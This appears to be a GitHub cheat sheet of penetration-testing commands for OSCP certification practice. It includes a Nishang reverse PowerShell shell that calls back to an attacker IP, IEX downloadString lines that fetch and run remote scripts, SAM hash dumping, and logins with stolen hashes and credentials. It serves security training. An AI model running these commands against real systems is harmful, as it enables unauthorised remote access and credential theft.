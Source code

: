 # oscp-cheatsheet

## Kali General

- Listen for pings to test if you remote command worked
  - `tcpdump -i interface icmp`
- Download all files from an ftp service
  - `wget -m --no-passive ftp://anonymous:anonymous@ipaddress`
- Read zip file info
  - `7z l -slt File.zip`
- Useful tools
  - xclip

## General Resources

- Ippsec has timestamp links in the description of all of his videos outlining the current command or technique he is performing
  - Google dork examples: `ippsec hackthebox mimikatz site:youtube.com`, `ippsec hackthebox download with powershell site:youtube.com`

## Windows

### Resources

- [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)

### Privesc

- Test if powershell is working without breaking shell
  - `powershell whoami`
- Pivot DoS to powershell using Nishang reverse powershell script.
  - Listen w/ nc on a new port.
  - Make a copy of `Invoke-PowerShellTcp.ps1` and add `Invoke-PowerShellTcp -Reverse -IPAddress ATTACKERIP -Port NEWLISTENERPORT` at the bottom of the copy file to run the command automatically
  - Start an HTTP server in the root directoy of the modified nishang script copy
  - Run this from DoS: `powershell "IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/nishang.ps1")"`
  - Go to your listener terminal, you should now have a reverse PS shell
- Download string that loads a ps script into memory (if you want it to auto run make sure there is a call to the function to do so at the bottom of the script, or else it'll just load the functions into memory)
  - `IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/jaws.ps1")`
- Download file
  - PS `IEX(New-Object Net.Webclient).downloadFile("<urltofile>","savelocation")`
- Run cmd as other user
  - PS > `$SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred`
  - DOS > `\Windows\System32\runas.exe`
- Run exe
  - PS from working directory `Start-Process -FilePath "sort.exe"`
  - PS from other directory `Start-Process -FilePath "myfile.txt" -WorkingDirectory "C:\PS-Test"`
  - PS as admin `Start-Process -FilePath "powershell" -Verb RunAs -Credential $cred` (See above on how to create credential)
  - PS with arguments `Start-Process -FilePath "$env:comspec" -ArgumentList "/c dir ``"%systemdrive%\program files\``""`
- Decrypy SAM password hashes
  - `impacket-secretsdump -sam SAMFILE -system SYSTEMFILE local`
- Determine admin accounts
  - DOS: `net localgroup administrators`
- SAM and SYSTEM file location
  - `Windows/System32/config`
- Log into remote windows host with stolen creds (SMB required)
  - `psexec.py user@ip`
- Find shortcut location (`*.lnk`)
  - PS `$Wscript = New-Object -ComObject Wscript.shell; $shortcut = Get-ChildItem *.lnk'; $Wscript.CreateShortcut($shortcut)`
- Remember to check for dates when patches were applied, it'll key you into good potential kernel exploits
- Check panther directory, install logs get put in here and contain creds
- Read contents of file in PS shell
  - `get-Content "filename"`

### SMB

- Connect with stolen hash
  - `smbmap -u USER -p HASH -H hostnameIP`

### Troublshooting

- Have you checked for vuln apps in program files?
- Have you noticed any running processes that look obviously suspicious?
- Have you check all files in /Users directory (ie. /Desktop, /Documents
- Have you checked for hidden files?
  - `dir /ah`

## Linux

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/)

## Troubleshooting

- Did an RCE test work but your payload fail?
  - Try changing single quotes to double quotes or in some cases, like a powershell command, try double to triple and vice versa
  - Try escaping special characters
  - Try changing your outgoing port to a more commonly used one (80, 443, 21, 22, etc)
  - Try removing bad characters
    - ex: `cat reverse.ps1 OR echo -n "cmd" | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard`
      - `powsershell-enc base64scriptpaste`
  - If you used msfvenom make sure your archicitecture is correct
  - If you used msfvenom make sure your payload size isn't too large
  - If you used msfvenom try pivoting options
- Is your file transfer failing
  - do you have write access to the CWD?
  